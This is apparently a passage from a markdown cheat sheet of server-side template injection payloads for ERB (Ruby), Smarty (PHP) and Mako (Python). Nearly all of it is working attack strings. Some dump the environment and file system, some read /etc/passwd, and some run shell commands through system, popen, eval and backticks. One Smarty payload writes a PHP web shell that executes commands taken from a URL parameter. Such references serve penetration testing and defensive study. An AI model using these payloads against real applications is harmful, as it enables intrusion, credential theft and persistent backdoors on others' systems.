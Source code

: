   - **ERB (Ruby)**
    
    - **Basic exploration**
      - Check environment: `<%= ENV %>`
      - List file system: `<%= Dir.entries('/') %>`
    
    - **Reading files**
      ```
      <%= File.open('/etc/passwd').read %>
      ```
    
    - **Remote code execution**
      ```
      <%= `id` %>
      <%= system('id') %>
      <%= eval('`id`') %>
      <%= IO.popen('id').readlines() %>
      <%= require 'open3'; Open3.capture2('id') %>
      ```
  
  - **Smarty (PHP)**
    
    - **Basic exploration**
      - Access variables: `{$smarty.version}`, `{$smarty.template}`
      - PHP info: `{php}phpinfo();{/php}` (if allowed)
    
    - **Reading files**
      ```
      {config_load file='/etc/passwd'}
      {include file='/etc/passwd'}
      ```
    
    - **Remote code execution**
      ```
      {php}system('id');{/php}
      {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
      ```
  
  - **Mako (Python)**
    
    - **Basic exploration**
      - Check context: `${dir()}`
      - Check globals: `${globals()}`
      - Check locals: `${locals()}`
    
    - **Reading files**
      ```
      ${open('/etc/passwd').read()}
      ```
    
    - **Remote code execution**
      ```
      ${__import__('os').popen('id').read()}
      <%
        import os
        x=os.popen('id').read()
      %>
      ${x}
      ```
  